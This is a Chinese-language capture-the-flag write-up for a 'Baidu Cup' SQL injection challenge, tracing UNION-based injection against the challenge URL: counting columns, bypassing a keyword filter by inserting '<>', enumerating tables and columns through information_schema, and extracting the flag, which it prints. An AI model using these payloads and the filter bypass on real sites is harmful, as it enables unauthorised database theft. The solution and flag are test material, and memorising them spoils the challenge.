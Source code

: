 # SQL

## 题目描述
---
```
出题人就告诉你这是个注入，有种别走！
```

## 题目来源
---
“百度杯”CTF比赛 九月场

## 主要知识点
---
SQL 注入

## 题目分值
---
50

## 部署方式
---


## 解题思路
---

判断回显字段数量

```
http://05ccb6b3092d46d2ba43749dc0667cd372c1c33510a74df4.changame.ichunqiu.com/index.php?id=1 o<>rder by 3
正确
http://05ccb6b3092d46d2ba43749dc0667cd372c1c33510a74df4.changame.ichunqiu.com/index.php?id=1 o<>rder by 4
错误
```

所以有三个字段，使用下面语句判断证明存在回显，且回显在位置2

```
http://05ccb6b3092d46d2ba43749dc0667cd372c1c33510a74df4.changame.ichunqiu.com/index.php?id=1 un<>ion se<>lect 1,2,3
```

回显数据库

```
http://05ccb6b3092d46d2ba43749dc0667cd372c1c33510a74df4.changame.ichunqiu.com/index.php?id=1 un<>ion se<>lect 1,database(),3
```

![](images/2021-06-09-20-46-40.png)

列出表名  select group_concat(distinct table_name) from information_schema.tables where table_schema=database()

```
http://05ccb6b3092d46d2ba43749dc0667cd372c1c33510a74df4.changame.ichunqiu.com/index.php?id=1 un<>ion sel<>ect 1,group_concat(distinct table_name),3 from information_schema.tables where table_schema=database()
```

![](images/2021-06-09-21-05-47.png)

存在表 info和users

列出列名  select group_concat(distinct column_name) from information_schema.columns where table_schema=database() and table_name=0x61646d696e

```
http://05ccb6b3092d46d2ba43749dc0667cd372c1c33510a74df4.changame.ichunqiu.com/index.php?id=1 un<>ion sel<>ect 1,group_concat(distinct column_name),3 from information_schema.columns where table_schema=database() a<>nd ta<>ble_name='info'
```

![](images/2021-06-09-21-11-32.png)

info表 id,title,flAg_T5ZNdrm
users表 id,username,flag_9c861b688330

列出数据 select group_concat(username,0x7c,password,0x7c,Email) from admin

```
http://05ccb6b3092d46d2ba43749dc0667cd372c1c33510a74df4.changame.ichunqiu.com/index.php?id=1 un<>ion se<>lect 1,group_concat(id,0x7c,title,0x7c,flAg_T5ZNdrm),3 from info
```

![](images/2021-06-09-21-12-16.png)

flag{8325306c-73f5-4a06-952e-532e65edf9d3}

## 参考
---
